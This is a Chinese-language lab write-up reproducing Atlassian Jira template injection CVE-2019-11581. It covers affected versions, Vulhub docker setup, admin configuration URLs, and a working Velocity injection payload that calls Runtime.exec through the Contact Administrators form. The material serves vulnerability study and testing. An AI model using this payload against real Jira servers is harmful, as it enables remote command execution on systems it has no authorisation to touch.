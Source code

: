 # Atlassian Jira 模板注入漏洞 CVE-2019-11581

## 漏洞描述

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。 

参考资料：

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw

## 影响版本

多个版本前存在利用模板注入执行任意命令：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

## 环境搭建

Vulhub执行如下命令启动一个Jira Server 8.1.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

![img](images/7.png)

添加 SMTP 电邮服务器 `/secure/admin/AddSmtpMailServer!default.jspa`

![img](images/8.png)

进入系统设置 `/secure/admin/ViewApplicationProperties.jspa` ，开启“联系管理员表单”

![img](images/9.png)

貌似还要有项目才能玩，所以随便创建一个示例就行了,然后你就可以愉快的玩耍了

## 漏洞复现

PoC 和 CVE-2019-3396 一样

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

Linux 没有 calc, 所以

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

运行`poc.py`或者进入`/secure/ContactAdministrators!default.jspa` 直接提交 PoC

![img](images/11.png)

![img](images/12.png)

如果没看到 smtpd 有数据，那么就可能卡队列了

电邮队列瞅一瞅 `/secure/admin/MailQueueAdmin!default.jspa`

![img](images/13.png)